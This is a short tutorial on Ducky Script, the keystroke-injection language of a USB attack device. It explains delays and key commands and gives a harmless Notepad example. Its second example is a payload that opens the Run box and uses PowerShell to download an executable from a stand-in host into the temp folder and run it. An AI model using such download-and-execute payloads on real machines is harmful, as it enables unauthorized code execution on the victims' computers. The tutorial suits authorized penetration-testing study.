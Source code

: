= Introduction =
Since first time Ducky users are unfamiliar with Ducky Script, below is a brief summary (with examples) on how to code in Ducky Script.

= Example 1 - Hello World =
The Ducky fires the payload immediately, so you need an initial delay for the OS to recognize and allow the Ducky to proceed as a keyboard, in this example we use a delay of 3secs (3000msecs) for the Windows OS (other OS's may be quicker).

The steps of this example can be broken down into:
* Initial Delay for the OS
* GUI R triggers the run-box
* Small delay to wait for the run-box to open
* Ducky types notepad ENTER to load notepad
* Small delay to wait for notepad to open
* Ducky then types an arbitrary string into notepad

 DELAY 3000
 GUI R
 DELAY 200
 STRING notepad
 ENTER
 DELAY 200
 STRING Hello World!!!
 ENTER
= Example 2 - Download & Execute =
An example of using Powershell to download a file from the web and then execute it.
 DELAY 3000
 GUI r
 DELAY 100 
 STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe');
 DELAY 100
 STRING Start-Process "%TEMP%\bob.exe"
 ENTER
= Other Examples =
The community is storing generated payloads on the following wiki-page:
* [[Payloads]]

=Command Breakdown=
* DELAY ''x'' - Delay in milli-secs
* STRING ''xyz'' - types following characters
* GUI - Windows Menu Key
* GUI R - Windows Run box
* Command - OSX Command Key
* UP | UPARROW - Up Key
* DOWN | DOWNARROW - Down Key
* LEFT | LEFTARROW - Left Key
* RIGHT | RIGHTARROW - Right Key
* CAPS |CAPSLOCK - Capslock Key
* ENTER - Return/Enter key
* SPACE - Spacebar
* REPEAT ''x'' - Repeat previous command X times.
You can even use some (but not all) two or three key-combinations:
* SHIFT-ENTER
* CTRL-ALT-DEL
* ALT-F4